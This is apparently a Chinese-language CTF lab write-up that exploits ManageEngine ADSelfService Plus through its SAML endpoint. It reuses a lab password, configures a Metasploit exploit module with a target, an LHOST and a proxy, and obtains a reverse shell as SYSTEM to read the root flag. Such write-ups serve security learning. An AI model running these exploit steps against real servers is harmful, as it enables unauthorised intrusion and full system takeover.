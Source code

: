 访问 172.16.22.1:8888 端口自动跳转到 9251 端口，之后又会跳转到 dc.cerberus.local

![](https://i.328888.xyz/2023/04/15/i7rdkw.png)

之后使用之前登陆这台 window 机器的密码 **matthew\@cerberus.local/147258369** 可以在这个页面进行登录，**算是一种密码重用吧**

登录后，仍会跳转到 [https://dc:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f](https://dc:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f)

![](https://i.328888.xyz/2023/04/15/i73feP.png)

## ManageEngine ADSelfService Plus

ManageEngine ADSelfService Plus 默认端口是 9251

到此为止，我们知道了这里的服务是 windows 的 ADSelfService，还有一个 guid:67a8d101690402dc6a6744b8fc8a7ca1acf88b2f，可以搜索相关 CVE 漏洞

![](https://i.328888.xyz/2023/04/15/i7RMm8.png)

![](https://i.328888.xyz/2023/04/15/i7csrA.png)

不过 searchsploit 搜到的几个都用不上，要用 msf 的 payload 才行、、、、、、

## 学习学习 msf 用法

使用 payload2，之后执行 `options` 查看需要配置的参数

![](https://i.328888.xyz/2023/04/15/i7cYAa.png)

       Name         Current Setting  Required  Description
       ----         ---------------  --------  -----------
       GUID                          yes       The SAML endpoint GUID
       ISSUER_URL                    yes       The Issuer URL used by the Identity Provider which has been configured as the SAML authentication provider for the target server
       Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
       RELAY_STATE                   no        The Relay State. Default is "http(s)://<rhost>:<rport>/samlLogin/LoginAuth"
       RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
       RPORT        9251             yes       The target port (TCP)
       SSL          true             no        Negotiate SSL/TLS for outgoing connections
       SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI    /samlLogin       yes       The SAML endpoint URL
       URIPATH                       no        The URI to use for this exploit (default is random)
       VHOST                         no        HTTP server virtual host

msf 配置此 payload 相关参数

```shell
set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
set ISSUER_URL http://dc.cerberus.local/adfs/services/trust
set RHOSTS 172.16.22.1
set RPORT 9251
set LHOST 10.10.16.2
set ReverseAllowProxy true
set AutoCheck false
set proxies socks5:127.0.0.1:1080
run
> shell
C:\Program Files (x86)> whoami
nt authority\system
C:\Program Files (x86)> type c:\Users\Administrator\Desktop\root.txt
f*******************************
```